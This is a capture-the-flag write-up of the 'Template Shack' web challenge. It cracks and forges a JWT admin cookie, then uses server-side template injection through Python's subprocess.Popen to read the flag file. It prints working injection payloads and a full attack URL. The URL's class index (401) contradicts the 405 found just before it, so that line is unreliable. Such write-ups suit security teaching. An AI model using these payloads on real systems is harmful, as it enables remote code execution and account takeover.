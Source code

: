 ```yaml
---
title: Template Shack
date: 2020-12-29
excerpt: "'Template Shack' was a challenge in the Web category of Hacktivitycon"
classes: wide
categories: Hacktivitycon2020
tags:
  - hacktivitycon
  - SSTI
  - RCE
  - web
  - jwt
---
```


![img](/assets/images/ctf/hacktivitycon-web-templateshack/0.png)


![img](/assets/images/ctf/hacktivitycon-web-templateshack/1.png)


Nothing out of place. Checking the cookies we see what looks to be a JSON Web Token



![img](/assets/images/ctf/hacktivitycon-web-templateshack/2.png)


[jwt.io](http://jwt.io) confirms that it's a JWT and it's using HS256 as the hashing algorithm. Let's see if we can forge our own by cracking this one.



![img](/assets/images/ctf/hacktivitycon-web-templateshack/3.png)


Using jwt-tool to crack the key



![img](/assets/images/ctf/hacktivitycon-web-templateshack/4.png)


Time to forge our own admin JWT:



![img](/assets/images/ctf/hacktivitycon-web-templateshack/5.png)


By changing the cookie value to our new JWT, we've accessed the admin account



![img](/assets/images/ctf/hacktivitycon-web-templateshack/6.png)


Nothing seems to work here, and the only two options that do work kick back a 404.



![img](/assets/images/ctf/hacktivitycon-web-templateshack/7.png)


Interesting. The URL that's causing the error seems to be reflected on the page. Seems like we can control it.



Since the name of the challenge is 'Template Shack', let's jump right into template injection



`jh2i.com:50023/admin/{{7*7}}`



![img](/assets/images/ctf/hacktivitycon-web-templateshack/8.png)


Template injection is a go!



Starting with



`{{''.__class__.__mro__[1].__subclasses__()}}`



we can look for the `'subprocess.Popen'` class



![img](/assets/images/ctf/hacktivitycon-web-templateshack/9.png)


we need it's exact index in the list. Let's use slicing to find it:



`{{''.__class__.__mro__[1].__subclasses__()[400::]}}`



By continuously slicing higher indicies, we can track down exactly where `subprocess.Popen` is



`{{''.__class__.__mro__[1].__subclasses__()[405::]}}`



![img](/assets/images/ctf/hacktivitycon-web-templateshack/10.png)


Now that it's at the top of the list, we know it's at 405



Payload:



`{{''.__class__.__mro__[1].__subclasses__()[405]('cat flag.txt',shell=True,stdout=-1).communicate()}}`



Full url:



`http://jh2i.com:50023/admin/{{''.__class__.__mro__[1].__subclasses__()[401]('cat flag.txt',shell=True,stdout=-1).communicate()}}`



![img](/assets/images/ctf/hacktivitycon-web-templateshack/11.png)
